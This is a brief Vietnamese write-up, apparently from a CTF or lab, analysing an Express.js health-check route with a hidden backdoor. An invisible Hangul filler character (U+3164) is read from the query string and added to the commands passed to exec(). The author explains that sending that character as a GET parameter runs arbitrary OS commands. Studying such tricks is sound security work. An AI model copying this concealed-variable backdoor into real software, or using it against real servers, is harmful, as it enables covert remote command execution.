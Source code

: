 # hangful_filler
Aka Unicode Character “ㅤ” (U+3164)

```
app.get('/server_health', cors(corsOptions), async (req, res) => {
    var { timeout,ㅤ} = req.query;
    const checkCommands = [
        '/bin/bash /home/player/scripts/fileIntegrity.sh',
        '/bin/bash /home/player/scripts/isUp.sh localhost:80',
        '/bin/bash /home/player/scripts/isUp.sh localhost:3000',ㅤ
    ];

    var t = 0;
    if (timeout != "") {
        t = parseInt(t);
    }

    try {
        output = ""
        await Promise.all(checkCommands.map(async (cmd) => {
            try {
                r = await exec(cmd, { timeout: t });
                output += r.stdout.trim() || r.stderr.trim();
            } catch (err) {
                output += "";
            }
            output += "\n"
        }));
        res.status(200);
        res.send(output.trim());
    } catch(e) {
        res.status(500);
        res.send('Server status : ERROR');
    }
});
```

Mình có thể thấy trong dòng ``var { timeout,ㅤ} = req.query;``, Nếu không đọc kĩ, mình sẽ lầm tưởng tham số ``timeout`` là tham số duy nhất được destruct từ ``req.query``,  nhưng thực tế là tồn tại thêm kí tự ``hangful_filler`` đó. kí tự unicode này đuợc JS đối xử như là 1 biến va chính điều đó đã làm thay đổi logic cả đoạn code.

Tận dụng điều đó, mình truyền kí tự đó như 1 tham số GET ở dạng được mã hóa URL để thực thi mã tùy ý. Và khi đó, mỗi phần tử trong mảng ``checkCommands``, cũng như tham số do mình cung cấp sẽ được pass vào hàm ``exec`` để thực thi các lệnh OS.

![img](./img/2.png)
